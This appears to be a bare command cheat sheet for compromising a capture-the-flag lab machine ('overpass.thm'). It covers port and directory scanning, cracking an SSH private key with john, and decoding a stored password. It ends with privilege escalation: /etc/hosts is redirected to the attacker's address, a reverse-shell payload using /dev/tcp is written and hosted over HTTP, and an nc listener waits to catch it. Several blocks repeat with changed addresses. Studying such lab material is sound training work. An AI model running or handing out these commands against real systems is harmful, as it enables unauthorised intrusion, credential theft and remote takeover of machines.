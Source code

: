# Malicious script creation and hosting
echo 'bash -i >& /dev/tcp/10.10.95.251/12345 0>&1' > buildscript.sh
python3 -m http.server 80

# Listener for reverse shell
nc -lvnp 12345

nmap -sV -O 10.10.225.77

gobuster dir -u http://10.10.225.77 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

gobuster dir -u http://10.10.247.215/as -w /usr/share/wordlists/dirb/common.txt -x php

# Client-side cookie injection (manual via browser dev tools)

# SSH private key cracking
/opt/john/ssh2john.py id_rsa > id_rsa.hash
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash

chmod 600 id_rsa
ssh -i id_rsa james@10.10.225.77

# Decode ROT47 password
echo ",LQ?2>6QiQ$JDE6>Q[QA2DDQiQD2J5C2H?=J:?8A:4EFC6QN." | tr '!-~' 'P-~!-O'

# Crontab inspection
cat /etc/crontab

# Hostname hijacking
echo "10.10.95.251 overpass.thm" >> /etc/hosts

# Malicious script creation and hosting
echo 'bash -i >& /dev/tcp/10.10.95.251/12345 0>&1' > buildscript.sh
python3 -m http.server 80

# Listener for reverse shell
nc -lvnp 12345


nmap -sV -O 10.10.81.195

gobuster dir -u http://10.10.81.195 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
